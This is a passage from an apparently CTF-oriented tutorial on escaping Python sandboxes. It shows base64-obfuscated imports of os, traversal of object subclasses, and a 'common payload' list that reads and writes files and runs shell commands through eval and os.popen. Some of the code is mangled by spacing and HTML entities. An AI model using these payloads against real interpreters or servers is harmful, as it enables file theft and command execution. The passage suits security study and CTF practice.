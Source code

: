 Then quoted by **__dict__**
```py

>>> __builtins__.__dict__['X19pbXBvcnRfXw=='.decode('base64')]('b3M='.decode('base64'))

```



* If some introverted functions are removed in __builtins__, we can reload them by reload(__builtins__) to get a complete __builtins__*
## Creating objects and references
There are a lot of basic functions integrated in Python&#39;s object class, and we can also refer to it by creating objects when we want to call them.


We have two common methods:
```bash

().__class__.__bases__[0]

''.__class__.__mro__[2]

```

![](http://oayoilchh.bkt.clouddn.com/18-5-3/14928461.jpg)

For example, we can pass
`print ().__class__.__bases__[0].__subclasses__()[40](&quot;/etc/services&quot;).read()` achieves the effect of file reading,


**Common payload**
```py

#读文件
().__class__.__bases__[0].__subclasses__()[40](r'C:\1.php').read()



#Write file
().__class__.__bases__[0].__subclasses__()[40]('/var/www/html/input', 'w').write('123')



#Execute arbitrary commands
() .__ class __.__ bases __ [0] .__ subclasses __ () [59] .__ init __. func_globals.values () [13] [&#39;eval&#39;] (&#39;__ import __ (&quot;os&quot;). popen (&quot;ls / var / www / html &quot;). read () &#39;)
```



## Indirect reference
In some topics, such as the Python sandbox issue of the 2018 National Tournament, the import is actually castrated. But in Python, the native **__import__** is referenced, as long as we find the relevant object reference, we can further get what we want, the following demo will tell you
